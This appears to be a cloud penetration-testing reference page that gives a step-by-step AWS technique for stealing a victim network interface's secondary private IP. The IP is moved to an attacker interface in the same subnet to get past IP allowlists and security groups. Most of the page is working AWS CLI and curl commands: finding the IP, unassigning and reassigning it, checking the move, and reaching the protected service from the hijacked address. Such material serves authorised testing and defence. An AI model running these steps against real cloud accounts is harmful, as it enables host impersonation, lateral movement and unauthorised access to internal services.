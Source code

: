 # AWS – EC2 ENI Secondary Private IP Hijack (Trust/Allowlist Bypass)

Abuse `ec2:UnassignPrivateIpAddresses` and `ec2:AssignPrivateIpAddresses` to steal a victim ENI’s secondary private IP and move it to an attacker ENI in the same subnet/AZ. Many internal services and security groups gate access by specific private IPs. By moving that secondary address, the attacker impersonates the trusted host at L3 and can reach allowlisted services.

Prereqs:
- Permissions: `ec2:DescribeNetworkInterfaces`, `ec2:UnassignPrivateIpAddresses` on the victim ENI ARN, and `ec2:AssignPrivateIpAddresses` on the attacker ENI ARN.
- Both ENIs must be in the same subnet/AZ. The target address must be a secondary IP (primary cannot be unassigned).

Variables:
- REGION=us-east-1
- VICTIM_ENI=<eni-xxxxxxxx>
- ATTACKER_ENI=<eni-yyyyyyyy>
- PROTECTED_SG=<sg-protected>   # SG on a target service that allows only $HIJACK_IP
- PROTECTED_HOST=<private-dns-or-ip-of-protected-service>

Steps:
1) Pick a secondary IP from the victim ENI
```bash
aws ec2 describe-network-interfaces --network-interface-ids $VICTIM_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[?Primary==`false`].PrivateIpAddress --output text | head -n1 | tee HIJACK_IP
export HIJACK_IP=$(cat HIJACK_IP)
```

2) Ensure the protected host allows only that IP (idempotent). If using SG-to-SG rules instead, skip.
```bash
aws ec2 authorize-security-group-ingress --group-id $PROTECTED_SG --protocol tcp --port 80   --cidr "$HIJACK_IP/32" --region $REGION || true
```

3) Baseline: from attacker instance, request to PROTECTED_HOST should fail without spoofed source (e.g., over SSM/SSH)
```bash
curl -sS --max-time 3 http://$PROTECTED_HOST || true
```

4) Unassign the secondary IP from the victim ENI
```bash
aws ec2 unassign-private-ip-addresses --network-interface-id $VICTIM_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```

5) Assign the same IP to the attacker ENI (on AWS CLI v1 add `--allow-reassignment`)
```bash
aws ec2 assign-private-ip-addresses --network-interface-id $ATTACKER_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```

6) Verify ownership moved
```bash
aws ec2 describe-network-interfaces --network-interface-ids $ATTACKER_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[].PrivateIpAddress --output text | grep -w $HIJACK_IP
```

7) From the attacker instance, source-bind to the hijacked IP to reach the protected host (ensure the IP is configured on the OS; if not, add it with `ip addr add $HIJACK_IP/<mask> dev eth0`)
```bash
curl --interface $HIJACK_IP -sS http://$PROTECTED_HOST -o /tmp/poc.out && head -c 80 /tmp/poc.out
```

## Impact
- Bypass IP allowlists and impersonate trusted hosts within the VPC by moving secondary private IPs between ENIs in the same subnet/AZ.
- Reach internal services that gate access by specific source IPs, enabling lateral movement and data access.
